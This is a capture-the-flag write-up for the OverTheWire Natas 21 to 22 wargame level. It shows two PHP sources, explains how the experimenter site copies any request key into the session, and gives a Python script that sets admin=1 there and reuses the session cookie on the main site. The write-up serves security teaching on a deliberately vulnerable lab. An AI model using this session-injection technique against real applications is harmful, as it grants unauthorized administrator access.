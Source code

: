 # Natas 21 -> 22

```
http://natas21.natas.labs.overthewire.org
http://natas21-experimenter.natas.labs.overthewire.org
```

```
Username: natas21
```

This time we get two sites and their codes

`natas21`
```php
function print_credentials() { /* {{{ */ 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) { 
    print "You are an admin. The credentials for the next level are:<br>"; 
    print "<pre>Username: natas22\n"; 
    print "Password: <censored></pre>"; 
    } else { 
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22."; 
    } 
} 
/* }}} */ 

session_start(); 
print_credentials(); 
```

`natas21-experimenter`
```php
session_start(); 

// if update was submitted, store it 
if(array_key_exists("submit", $_REQUEST)) { 
    foreach($_REQUEST as $key => $val) { 
    $_SESSION[$key] = $val; 
    } 
} 

if(array_key_exists("debug", $_GET)) { 
    print "[DEBUG] Session contents:<br>"; 
    print_r($_SESSION); 
} 

// only allow these keys 
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow"); 
$form = ""; 

$form .= '<form action="index.php" method="POST">'; 
foreach($validkeys as $key => $defval) { 
    $val = $defval; 
    if(array_key_exists($key, $_SESSION)) { 
    $val = $_SESSION[$key]; 
    } else { 
    $_SESSION[$key] = $val; 
    } 
    $form .= "$key: <input name='$key' value='$val' /><br>"; 
} 
$form .= '<input type="submit" name="submit" value="Update" />'; 
$form .= '</form>'; 

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";"; 
$example = "<div style='$style'>Hello world!</div>"; 

?> 

<p>Example:</p> 
<?=$example?> 

<p>Change example values here:</p> 
<?=$form?> 
```

`natas21` only prints the credentials for the next level. `natas21-experimenter` is the one we need to work with.  
Basically, it'll take all the keys from `$validkeys` and print a `<form>` but before that it'll search for `submit` in `$_REQUEST`, if there's such key then all the content we pass will be added to `$_SESSION` therefore authenticating us as admin.  
The only trick here is that we will be logged as admin in `natas21-experimenter` and not in `natas21` but since both sites work together we need to pass the cookie from `natas21-experimenter` in `natas21`.

```python
#!/usr/bin/env python

import requests

url = "http://natas21.natas.labs.overthewire.org/"
url_experimenter = "http://natas21-experimenter.natas.labs.overthewire.org/"
http_user = "natas21"
http_pass = ""

rexp = requests.get(url_experimenter,
                    params={
                        "admin": "1",
                        "submit": "1"
                    },
                    auth=(http_user, http_pass))

r = requests.get(url,
                 cookies={'PHPSESSID': rexp.cookies.get('PHPSESSID')},
                 auth=(http_user, http_pass))

print r.text
```


* php
